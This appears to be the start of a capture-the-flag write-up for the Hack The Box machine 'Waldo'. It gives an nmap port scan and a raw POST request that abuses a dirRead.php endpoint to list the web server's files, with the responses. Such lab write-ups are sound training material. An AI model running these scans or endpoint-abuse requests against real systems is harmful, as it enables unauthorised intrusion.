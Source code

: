 149 - Waldo
===========

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS --top-ports 200 10.10.10.87
Starting Nmap 7.70 ( https://nmap.org ) at 2018-08-13 18:18 CEST
Nmap scan report for 10.10.10.87
Host is up (0.052s latency).
Not shown: 196 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
8000/tcp open     http-alt
8888/tcp filtered sun-answerbook

Nmap done: 1 IP address (1 host up) scanned in 3.63 seconds
```

While using the site, several request seems to be interesting in Burp history, especially calls to:
- fileRead.php
- fileWrite.php
- dirRead.php

The dirRead.php can be abused to read the folder content as follows:
```
POST /dirRead.php HTTP/1.1
Host: 10.10.10.87
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.87/list.html
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Color: cyan
Connection: close

path=./
```

HTTP Response:
```
HTTP/1.1 200 OK
Server: nginx/1.12.2
Date: Tue, 14 Aug 2018 15:39:54 GMT
Content-Type: application/json
Connection: close
X-Powered-By: PHP/7.1.16
Content-Length: 155

[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```
